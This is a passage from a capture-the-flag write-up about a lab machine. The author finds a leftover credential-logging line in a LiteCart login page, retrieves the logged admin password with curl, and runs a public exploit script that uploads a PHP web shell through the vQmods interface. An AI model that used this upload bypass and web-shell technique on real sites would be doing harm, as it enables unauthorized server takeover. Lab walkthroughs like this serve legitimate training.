 
The password “changethis” could very well be wrong in this case. It certainly
doesn’t work to get into the admin panel.

Eventually some recursive `grep` found this in `shop/admin/login.php`:

    
    
    if (isset($_POST['login'])) {
        //file_put_contents("./.log2301c9430d8593ae.txt", "User: " . $_POST['username'] . " Passwd: " . $_POST['password']);
        user::login($_POST['username'], $_POST['password'], $redirect_url, isset($_POST['remember_me']) ? $_POST['remember_me'] : false);
      }
    
    

That commented line is interesting. Given the theme of this box is likely that
it’s already compromised, maybe the other hacker left that behind to collect
creds. That log file is still on the server:

    
    
    root@kali# curl http://10.10.10.207/shop/admin/.log2301c9430d8593ae.txt
    User: admin Passwd: theNextGenSt0r3!~
    

Logging in at `/shop/admin/login.php` with those creds works:

![image-20210116143434241](https://0xdfimages.gitlab.io/img/image-20210116143434241.png)

At the bottom, it identifies the LiteCart version, 2.1.2, which is the one
with the upload vulnerability.

## Shell as mysql

### Exploit

The exploit is a pretty simple upload vulnerability, where a PHP file can be
uploaded using the vQmods interface in LiteCart. I’ll log into the admin
interface at `/shop/admin` like above, and at the very bottom of the menu on
the left is “vQmods”, which leads to this page:

![image-20210119084339587](https://0xdfimages.gitlab.io/img/image-20210119084339587.png)

There’s client-side filtering requiring a file with a `.xml` extension, but I
can catch the request in Burp (or use the exploit script to bypass client-side
filtering) and change the file name to `.php`, and the file will upload.

### Exploit Troubleshooting

I’ll use the exploit script from here out, but it would be just as easy to do
things manually. Running the exploit from `searchsploit` doesn’t completely
work, returning an empty line where the output should be:

    
    
    root@kali# python 45267.py -t http://10.10.10.207/shop/admin/ -u admin -p 'theNextGenSt0r3!~' 
    Shell => http://10.10.10.207/shop/admin/../vqmod/xml/S59WW.php?c=id
    